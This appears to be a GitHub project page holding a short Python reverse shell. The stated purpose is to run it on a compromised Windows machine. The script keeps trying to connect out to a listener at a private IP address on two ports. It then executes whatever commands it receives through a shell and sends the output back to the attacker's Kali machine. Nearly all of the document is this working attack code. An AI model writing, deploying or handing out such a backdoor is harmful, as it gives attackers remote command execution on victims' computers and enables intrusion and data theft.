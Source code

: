 # PythonScriptProject4
On a compromised window machine we have a python script that connects to a listening port on a linux machine. This python script will execute a command specified by our linux machine.


import time
import socket
import subprocess


def recvall(s):
   data=s.recv(1)
   s.setblocking(0)
   starter=time.time()
   print('loop start')
   while time.time()-starter<2: #time calls for 2 seconds
      try:
         newdata=s.recv(2048) 
         if newdata==0:#s.recieve 0 if connection is terminated. s.recieve throws an erorr if live but no new data
            break
      except socket.error: 
         pass
      else: 
         data+=newdata
         starter=time.time()#if it recieves data restarts
   s.setblocking(1)#when blocking is on s.recieve will hang until data is recieved
   return data.decode()


def myconn(s,dat):
   connected=False #will continue to try to make connections as long as connected=false
   while not connected:
      for port in dat[1]:
         try:
            print('try port',port)
            s.connect((dat[0],port))
         except socket.error:
            print('Could not connect') 
            time.sleep(1)
            continue 
         else:
            print('connected') 
            connected=True 
            break


def main(dat): #calls main with argument which is tuple
  
   while True:
      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      myconn(s,dat)
      time.sleep(1)
      cmd=recvall(s)
      if cmd == 'finn\n':
         s.close()
         break
   
      print(cmd)
      subby=subprocess.Popen(cmd,shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)
      
      output,error=subby.communicate()#subprocess.popen as a shell command the output is then captured with subby.communicate
      print(output)
      
      s.send(output)# Sends proccess output to listening socket on kali
   
      s.close()

main(('192.168.4.174',[432,34395]))
